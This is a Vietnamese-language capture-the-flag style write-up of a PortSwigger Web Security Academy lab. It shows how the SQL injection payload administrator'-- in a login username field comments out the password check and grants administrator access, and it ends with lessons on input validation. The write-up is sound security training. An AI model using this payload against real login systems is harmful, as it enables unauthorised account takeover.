

# Write-up: SQL injection vulnerability allowing login bypass

### Tổng quan
Write-up này ghi lại quá trình khai thác lỗ hổng SQL injection trong bài lab trên PortSwigger Web Security Academy, với mục tiêu là sử dụng SQLi để đăng nhập dưới tư cách user `administrator`.

### Mục tiêu
Đăng nhập vào tài khoản `administrator`.
### Công cụ sử dụng
- Firefox Browser.

### Các bước thực hiện 
1. **Thu Thập thông tin (Recon)**
- Kiểm tra chức năng `login` của web bằng cách đăng nhập `Username = guest'` và `Password = 1`, phản hồi của web:
    ```
    -> Internal Server Error
    ```

2. **Tạo Payload**
- Truy vấn giả định:
    ```
    SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
    ```
- Sử dụng payload `administrator'--` trong trường `Username` để bỏ qua điều kiện mật khẩu.   
    ```
    SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
    ```
    - dấu comment `--` đã bỏ qua điều kiện password.

3. **Khai thác (Exploitation)**
- Gửi payload trên Firefox trong phần `Username` của chức năng `login`:
  - **Kết quả**: Đăng nhập thành công dưới vai trò `administrator`
    


### Bài học rút ra
- Thành thạo khai thác SQL injection để bỏ qua đăng nhập bằng cách thao túng truy vấn.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.
### Tài liệu tham khảo
- PortSwigger: SQL Injection
- PortSwigger: SQL Injection Cheat Sheet
### Kết luận
Lab này giúp tôi thành thạo kĩ năng SQL injection cơ bản. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.